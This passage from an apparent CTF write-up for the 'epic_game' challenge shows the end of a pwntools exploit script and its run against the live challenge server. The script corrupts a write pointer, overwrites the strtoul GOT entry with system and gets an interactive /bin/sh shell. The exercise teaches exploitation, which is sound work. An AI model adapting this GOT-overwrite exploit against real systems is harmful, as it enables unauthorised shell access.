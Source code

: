 ```

for i in range(15):
	
	print(target.recvuntil(b'Your Choice:', timeout=1))
	target.sendline(b'a' * 0x3b)

print(target.recvuntil(b'Your Choice:', timeout=1))

padding = b'a' * 6
curr_payload = padding

#\x49 gets puts
#\x51 is strlen
#\xa9 is strtoul
curr_payload += b'\xa9' + b'\xff' * 7 
#This is setting the value in curr, which controls where my next write goes
target.sendline(curr_payload)

#This is setting the GOT entry for strtoul to system
print(target.recvuntil(b'Your Choice:', timeout=1))
target.sendline(p64(system_libc))

#When strtoul is called on our input, we get system(/bin/sh) instead!
print(target.recvuntil(b'Your Choice:', timeout=1))
target.sendline(b'/bin/sh\x00')

target.interactive()

```
And the result against the live server looked like this:

```
knittingirl@piglet:~/CTF/ICHSA_CTF/ctfd$ python3 epic_game_payload.py 
[+] Opening connection to epic_game.ichsa.ctf.today on port 8007: Done
[*] '/home/knittingirl/CTF/ICHSA_CTF/ctfd/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b"Hello epic warrior, it's time to begin your quest\n\nChoose your character:\n\t1 - Mighty warrior\n\t2 - Wizard        \n\t3 - Elf           \n\nYour Choice:"
b'\nInput Error\n\nChoose your character name (limit to 12 chars)'
b'\nYour Choice:\nInput Error\n\nHello aaaaaaaaaaaa The Wizard!!!\nYour health is 1200 pt.\nYour shield is 400 pt.\nYour strength is 200 pt.\nYour lucky number is '
leak is 0x7f6df4616ef0
b' will need 2147483647 points to get the flag\nGood luck, the kingdom trust you!!\n\nYou meet a Evil snake!!!\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
b'\nInput Error\n\naaaaaaaaaaaa\nchoose your move:\n1 - hit \n2 - protect\n3 - run\n\nYour Choice:'
```